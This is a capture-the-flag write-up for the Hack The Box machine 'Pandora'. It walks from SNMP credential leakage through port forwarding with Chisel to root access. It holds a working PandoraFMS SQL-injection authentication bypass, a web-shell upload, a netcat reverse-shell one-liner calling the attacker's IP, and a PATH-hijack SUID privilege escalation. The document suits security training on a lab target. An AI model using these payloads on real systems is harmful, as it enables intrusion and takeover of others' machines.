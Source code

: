 # Pandora Write-up
Hi everyone, let's start to h4ck !
## Description
The box is available [here](https://app.hackthebox.com/machines/Pandora) if you want to try before read this write-up !

 - OS : Linux
 - Release date : 08 january 2022
 - Difficulty : easy
 - Points : 20
 - IP Adress : ```10.10.11.136```

Pandora is a nice box for beginner and interesting to learn new tools.

## Foothold
### Scanning The Box :
So first, we gonna scan the IP adress with the popular tool **Nmap** with the command :
```markdown
nmap 10.10.11.136 -sC -sV -p-
```

We have the following result :
```markdown
# Nmap 7.91 scan initiated Sun Feb 20 21:02:20 2022 as: nmap -p- -sC -sV -oA scan_nmap 10.10.11.136
Nmap scan report for Pandora.htb (10.10.11.136)
Host is up (0.030s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 24:c2:95:a5:c3:0b:3f:f3:17:3c:68:d7:af:2b:53:38 (RSA)
|   256 b1:41:77:99:46:9a:6c:5d:d2:98:2f:c0:32:9a:ce:03 (ECDSA)
|_  256 e7:36:43:3b:a9:47:8a:19:01:58:b2:bc:89:f6:51:08 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Play | Landing
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Feb 20 21:02:42 2022 -- 1 IP address (1 host up) scanned in 21.80 seconds
```
We can see there is two open ports : *HTTP* (80) and *SSH* (22).

The SSH version seems not be vulnerable to a CVE, so we gonna check the website with **Nikto** and **Gobuster**.
```markdown
nikto -h 10.10.11.136
gobuster dir --url http://10.10.11.136 -w /usr/share/wordlist/dirb/big.txt -x html,php,txt,xml,bak,zip
```

We have find some infos and files but nothing interesting.

I try to re-check my scan with **Nmap** but here, I made a *UPD-Scan* :
```markdown
nmap 10.10.11.136 -sU
```
Now, we have a new port, a UDP-port :
```markdown
161/udp open|filtered snmp   SNMPv1 server; net-snmp SNMPv3 server (public)
```
SNMP is short of *Simple Network Management Protocol*. The explaination can be find [here](https://www.manageengine.com/fr/network-monitoring/what-is-snmp.html)

### Interaction with the SNMP server : 
Here we use *snmp-check*, a tool already installed in Kali-linux.
The syntax is simple: 
```markdown
snmp-check -p 161 10.10.11.136
```
After do this, we have got a long output and when we read it, we can see this interesting line:
```markdown
850                   runnable              sh                    /bin/sh               -c sleep 30; /bin/bash -c '/usr/bin/host_check -u daniel -p HotelBabylon23'
```
There is a process which use credentials of the user *Daniel* !

So we can use *SSH* now !

## User Flag
First, we check the other users present in the box. There is another user who call *Matt*.
```markdown
cat /etc/paswd | grep /bin/bash
```
```markdown
root:x:0:0:root:/root:/bin/bash
matt:x:1000:1000:matt:/home/matt:/bin/bash
daniel:x:1001:1001::/home/daniel:/bin/bash
```
We have no flag in our account so the user flag is in *Matt*'s account.
### Analyse the box 
We need to upgrade our lower access to a higher access to become *Matt*.

We can check the *SUID* files:
```markdown
find / -type f -perm /6000 -ls 2>/dev/null
```
We can do a ```sudo -l``` or a ```cat /etc/crontab``` too but we have nothing interesting.

We can use a popular automated tool which call [LinPEAS](https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh) to check all the misconfigurations present.
But with LinPEAS, we found nothing.

We read the hosts file.
```markdown
cat /etc/hosts
127.0.0.1       localhost
```

We try to cURL the localhost with ````curl 127.0.0.1```` and there is a website made with [*PandoraFMS*](https://pandorafms.com).

### Access to the site

So we have access to the site in local only. It is the best moment to introduce the tool [**Chisel**](https://github.com/jpillora/chisel).

**Chisel** is using for port fowarding, so here, we use it to forward the local website to our machine. After upload the binary, we use the following commands:

In our machine:
```markdown
./chisel server -p 8888 -reverse
```

In *Daniel*'s machine:
```markdown
./chisel client {YOUR_IP}:8888 R:8889:localhost:80
```

Now, go in our web browser and we have access to the site.

![alt text](https://github.com/Vssksj/Write-up/tree/main/HackTheBox/Pandora/IMG/web_pandora.jpg)

As you see, there is a login/password page. We test admin/admin ; admin/password but no result.

In the bottom, there is the version of *PandoraFMS* : ````v7.0NG.742````. Go check if there is a exploit for this version and when we search a little, we found 
a *bypass authentification* with a [Youtube Video](https://youtu.be/61KE45V7VT8). The bypass works with a *SQL injection*. Now, we are admin of the website. 

The exploit is:
```markdown
include/chart_generator.php?session_id=a%27%20UNION%20SELECT%20%27a%27,1,%27id_usuario|s:5:%22admin%22;%27%20as%20data%20FROM%20tsessions_php%20WHERE%20%271%27=%271
```

### Become Matt
We need a shell as *Matt*, so we gonna upload a reverse shell in the extensions part. We can't directly upload a php file but we can bypass this with a ```.zip``` file which content our shell. 

![alt text](https://github.com/Vssksj/My_projects/blob/main/HackTheBox/Pandora/upload_zip.png)

Now, go in ````http://localhost:8889/pandora_console/extensions/{YOUR_PAYLOAD}.php````. Here, it is a web shell because a try a reverse shell but it didn't work. After, in my web shell, I put a reverse shell with ````rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc {YOUR_IP} 1234 >/tmp/f```` and it worked. We are *Matt* !

![alt text](https://github.com/Vssksj/My_projects/blob/main/HackTheBox/Pandora/id_matt.png)

To have a better shell, put your public *SSH* key in the ````/home/matt/.ssh/authorized_keys````. Then connect with:
```markdown
ssh -i {YOUR_PRIVATE_KEY} matt@10.10.11.136
```
And you will be in *SSH*.

![alt text](https://github.com/Vssksj/My_projects/blob/main/HackTheBox/Pandora/id_rsa_matt.png)

## Privilege Escalation
The last step of the challenge is easy. Just made a basic enumeration and you will find a *SUID* file which call ````/usr/bin/pandora_backup````.

If we make a ````cat````, we see that the binary execute **tar**. 

To exploit this, it is really simple:
 - go in ````/tmp```` and create a file contain ````/bin/bash````. 
 - rename the file as ````tar````.
 - change the permissions 
 - export the *$PATH*

So let's do this:
```markdown
cd /tmp
echo '/bin/bash' > tar
chmod 777 tar
export PATH=/tmp:$PATH
```

When we execute the binary: 

![alt text](https://github.com/Vssksj/My_projects/blob/main/HackTheBox/Pandora/id_root.png)

BOOM ! We are ROOT !

*Note: It really important to run this in SSH beause when I tried in a 'bad shell', it didn't work.*

## Conclusion
This box was really fun and good for the beginners because you can learn notion as *Port Forwarding*, *Privilege Escalation* and *UDP Scan*. I recommend this box, 5 stars.

Thanks for reading ! :) 
